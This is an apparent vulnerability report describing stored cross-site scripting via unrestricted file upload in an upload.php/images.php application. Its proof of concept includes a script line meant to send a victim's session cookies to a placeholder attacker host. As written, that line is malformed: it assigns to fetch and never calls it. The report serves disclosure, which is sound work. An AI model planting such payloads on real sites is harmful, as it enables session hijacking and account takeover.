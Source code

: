 # Description

Stored XSS via Unrestricted File Upload  

- **Type:** Stored Cross-Site Scripting (XSS)  
- **Location:** `upload.php` → `images.php?id=<id>`  
- **Severity:** Low (Scoped to authenticated users)  
- **Impact:** JavaScript execution in authenticated sessions  

This allows an attacker to upload files like:  

```html
<script>alert(document.cookie)</script>
```
and have them rendered by images.php?id=<id>, where the file is served as HTML.  

The only restriction is that the XSS payload is accessible only by authenticated users with a valid JWT or session. This still presents a serious issue if a victim is an admin, a staff user or another privileged role.  


# PoC

Send POST /upload.php with malicious HTML/JS file inside.

> <script> fetch=('http://attacker.com/?cookie='+document.cookie)</script>  

After that, if admin decides to go in given link (images.php?id=123) we will get his cookies.  

[upload](../images/file_upload.gif) 

